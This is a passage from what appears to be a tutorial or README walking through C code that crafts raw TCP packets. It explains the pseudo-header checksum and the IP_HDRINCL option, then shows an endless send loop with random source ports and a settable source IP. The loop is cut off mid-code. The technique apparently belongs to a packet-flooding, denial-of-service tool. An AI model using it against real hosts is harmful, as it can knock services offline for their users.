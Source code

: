 ** Calculating the `TCP checksum` is a bit more involved because it includes a "pseudo-header" that contains some fields from the IP header. The \ is used to detect corruption in the entire TCP segment.

** First, the fields of the pseudo-header are filled. The source and destination addresses are set to the same values as in the IP header. The protocol_id field is set to the TCP protocol number, and the tcp_len field is set to the size of the TCP header.

** Next, the TCP header is copied into the pseudo-header.

** Finally, the checksum is calculated using the `calc_checksum` function, similarly to the IP checksum, but this time the pseudo-header is used instead of the packet data. The result is stored in the check field of the TCP header.


#### Set socket options:

         ==============================================================================================================
        || int flag_val = 1;                                                                                          ||
        || const int *val_ptr = &flag_val;                                                                            ||
        || if (setsockopt (socket_fd, IPPROTO_IP, IP_HDRINCL, val_ptr, sizeof(flag_val)) < 0) {                       ||
        ||     printf ("Error setting IP_HDRINCL. Error number : %d . Error message : %s \n", errno, strerror(errno));||
        ||     exit(0);                                                                                               ||
        || }                                                                                                          ||
         ==============================================================================================================

the option being set is `IP_HDRINCL`. The `IP_HDRINCL` option tells the kernel that the user application will provide the IP header for outgoing packets. This means that the application will manually construct the IP header for each packet it sends, giving the application greater control over the IP header fields.


#### Enter a loop to send packets:

             ============================================================================================================================
            || while (1) {                                                                                                              ||
            ||     tcp_header->check = 0;                                                                                               ||
            ||     tcp_header->source = htons(rand() + 1024);                                                                           ||
            ||                                                                                                                          ||
            ||     p_header.src_addr = inet_addr(src_ip);                                                                               ||
            ||     p_header.dest_addr = server_addr.sin_addr.s_addr;                                                                    ||  
            ||     p_header.reserved = 0;                                                                                               ||
            ||     p_header.protocol_id = IPPROTO_TCP;                                                                                  ||
            ||     p_header.tcp_len = htons(20);                                                                                        ||
            ||                                                                                                                          ||
            ||     memcpy(&p_header.tcp_struct , tcp_header , sizeof(struct tcphdr));                                                   ||
            ||                                                                                                                          ||
            ||     tcp_header->check = calc_checksum((unsigned short*) &p_header, sizeof(pseudo_header_t));                             ||
            ||                                                                                                                          ||